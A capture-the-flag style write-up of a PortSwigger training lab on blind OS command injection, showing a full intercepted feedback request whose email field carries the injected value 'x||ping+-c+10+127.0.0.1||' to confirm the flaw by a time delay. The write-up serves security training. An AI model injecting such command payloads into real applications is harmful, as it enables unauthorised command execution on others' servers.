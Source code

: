 # Blind OS command injection with time delays

## Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. 

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to: `email=x||ping+-c+10+127.0.0.1||`

```text
POST /feedback/submit HTTP/1.1
Host: 0ab00001046ddc1bc07b1d4b00f600f4.web-security-academy.net
Cookie: session=PBI3JYi8xuN2EDvHhrWZseFHddKXZkn3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: https://0ab00001046ddc1bc07b1d4b00f600f4.web-security-academy.net
Referer: https://0ab00001046ddc1bc07b1d4b00f600f4.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

csrf=WyBp0kTPSNblM4Z6OFjvREdg9Eo7FyIf&name=Test&email=x||ping+-c+10+127.0.0.1||&subject=Love+it&message=Much+appreciated.
```

3. Observe that the response takes 10 seconds to return.

## Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to cause a 10 second delay. 
